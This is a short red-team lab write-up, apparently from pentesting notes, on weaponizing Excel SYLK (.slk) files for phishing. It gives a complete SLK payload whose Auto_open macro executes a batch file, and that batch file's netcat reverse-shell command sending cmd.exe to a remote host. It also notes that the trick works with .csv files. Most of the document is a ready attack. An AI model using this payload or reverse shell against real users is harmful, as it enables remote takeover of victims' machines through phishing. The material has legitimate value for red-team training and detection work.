


# Phishing: .SLK Excel

This lab is based on findings by [@StanHacked](https://twitter.com/StanHacked) - see below references for more info.

## Weaponization

Create an new text file, put the the below code and save it as .slk file:


```csharp
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```




Note that the shell.cmd refers to a simple nc reverse shell batch file:


```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```


## Execution

Once the macro warning is dismissed, the reverse shell pops as expected:


Since the file is actually a plain text file, detecting/triaging malicious intents are made easier.

## Bonus

Note that the payload file could be saved as a .csv - note the additional warning though:



## References



[http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen](http://www.irongeek.com/i.php?page=videos/derbycon8/track-3-18-the-ms-office-magic-show-stan-hegt-pieter-ceelen)




